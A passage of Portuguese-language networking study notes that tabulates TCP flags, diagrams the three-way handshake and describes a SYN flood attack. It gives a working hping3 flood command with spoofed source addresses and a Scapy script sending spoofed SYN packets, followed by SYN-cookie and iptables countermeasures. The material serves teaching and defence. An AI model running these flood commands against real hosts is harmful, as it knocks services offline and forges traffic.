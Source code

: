 **Flags TCP**:

| Flag | Nome | Descrição | Uso |
|------|------|-----------|-----|
| **SYN** | Synchronize | Iniciar conexão | 3-way handshake |
| **ACK** | Acknowledgment | Confirmação | Sempre setado após SYN |
| **FIN** | Finish | Encerrar conexão | 4-way handshake de término |
| **RST** | Reset | Resetar conexão | Erro ou conexão inválida |
| **PSH** | Push | Enviar dados imediatamente | Dados urgentes |
| **URG** | Urgent | Dados urgentes | Raramente usado |
| **ECE** | ECN-Echo | Congestion notification | Controle de congestionamento |
| **CWR** | Congestion Window Reduced | Resposta ao ECE | Controle de congestionamento |

#### 3-Way Handshake

```
Cliente                                  Servidor
   |                                         |
   |--------- SYN (Seq=X) ----------------->|
   |                                         |
   |<--- SYN-ACK (Seq=Y, Ack=X+1) ----------|
   |                                         |
   |--------- ACK (Ack=Y+1) --------------->|
   |                                         |
   |<======== Conexão Estabelecida ========>|
```

#### Vulnerabilidades e Ataques

**1. SYN Flood (DoS)**

Exploração do 3-way handshake para esgotar recursos.

```bash
# hping3 - SYN flood
sudo hping3 -S -p 80 --flood --rand-source target.com
# -S: SYN flag
# --flood: enviar o mais rápido possível
# --rand-source: randomizar IP de origem

# SYN flood com Scapy
from scapy.all import *
target_ip = "192.168.1.100"
target_port = 80

for i in range(1000):
    ip = IP(src=RandIP(), dst=target_ip)
    tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
    send(ip/tcp, verbose=0)

# Contramedida: SYN Cookies
sudo sysctl -w net.ipv4.tcp_syncookies=1

# Contramedida: Rate limiting com iptables
sudo iptables -A INPUT -p tcp --syn -m limit \
    --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP
```
